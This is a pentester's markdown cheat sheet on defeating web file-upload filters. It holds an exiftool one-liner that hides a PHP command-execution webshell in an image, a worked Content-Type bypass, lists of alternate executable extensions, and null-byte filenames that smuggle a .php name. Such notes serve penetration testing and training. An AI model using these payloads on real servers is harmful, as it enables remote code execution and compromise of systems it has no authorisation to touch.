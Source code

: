 Upload_restrictions

Upload restrictions

## Basics

- replace .php by php3


## Have to work on

https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf

https://pentestlab.blog/2012/11/29/bypassing-file-upload-restrictions/

https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

http://www.hackingarticles.in/5-ways-file-upload-vulnerability-exploitation/

https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487

https://www.owasp.org/index.php/Unrestricted_File_Upload

## Inject malicious php into a picture

- https://techyzilla.blogspot.com/2012/07/injecting-malicious-php-in-to-an-image-file.html

---

- another one : https://sushant747.gitbooks.io/total-oscp-guide/bypass_image_upload.html

- ```exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' pic.jpg```
- ```mv pic.jpg pic.php.jpg```

## Example : Bypass security filter to upload php instead of other stuff

- If I submit a simple php webshell instead of a picture, it returns “Invalid file”. There is some filtering going on that I’ll need to bypass.

- I’ll find the allowed upload of a PNG in Burp and send it to Repeater. There are three common ways that a website will check for valid file types by comparing them to an allow- or deny-list:

1. File extension
2. Content-Type header
3. Magic bytes

- I’ll start by changing one at a time to see if the site blocks. First, I’ll change the extension to .php. It works.

- If I change the Content-Type header to application/x-php, it blocks it (even with the file name changed back to .png).

- Changing the content doesn’t seem to matter.

- Based on the filter testing, it seems like I can name a file .php and include PHP code, as long as I change the Content-Type header to a valid image.

## Bypass by changing extension :

- ASP:

.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml

- PHP:

.php
.php5
.php3
.php2
.shtml
.html
.php.png
(double extension attack)
What we would typically want to achieve is to circumvent the controls restricting the type of content that can be uploaded onto the website and try to upload something interesting like:

ASP / PHP file with a webshell – RCE
HTML file with Javascript code – XSS
EICAR file – test possibility of hosting malware
Protip: Don’t forget to always try the NULL byte injection trick as well, e.g.:

file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg

https://twitter.com/pwntheweb/status/1288112909520781316

